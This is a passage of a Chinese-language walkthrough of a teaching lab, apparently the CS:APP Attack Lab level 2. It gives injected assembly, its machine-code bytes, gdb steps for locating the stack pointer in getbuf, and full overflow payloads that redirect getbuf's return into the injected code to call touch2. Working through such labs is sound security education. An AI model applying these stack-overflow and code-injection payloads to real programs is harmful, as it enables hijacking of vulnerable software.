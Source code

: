 使用gcc -c 2inject.s 转化为二进制2inject.o，
使用objdump -d 2inject.o 生成对应指令序列

```c
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq
```

有了指令序列，我们还需要获取%rsp的地址，覆盖getbuf的返回地址。

```c
gdb -q ctarget
break getbuf        // 在getbuf处设置断点
run -q              // 执行到断点
disas               // 反汇编当前断点函数
stepi               // 步进
p $rsp              // 获取rsp的位置，这里我们获取到了(void *) 0x5561dc78，即rsp位置为0x5561dc78
```

所以最终输入结果如下，注意指令序列是按照小端编码返回的，因此我们也只需要原封不动地放回即可。

```c
48 c7 c7 fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55
```

### level2实战

首先获取touch2首地址：0x004018b2
获取cookie：0x55daf469
注入代码如下：
```c
    movq    $0x55daf469, %rdi
    pushq   $0x4018b2
    ret
```
获得指令序列：
```c
0:	48 c7 c7 69 f4 da 55 	mov    $0x55daf469,%rdi
7:	68 b2 18 40 00       	pushq  $0x4018b2
c:	c3                   	retq
```
再获取到进入getbuf函数后的rsp的地址：0x55676d78
所以最终结果如下：
```c
48 c7 c7 69 f4 da 55 68
b2 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 6d 67 55
```
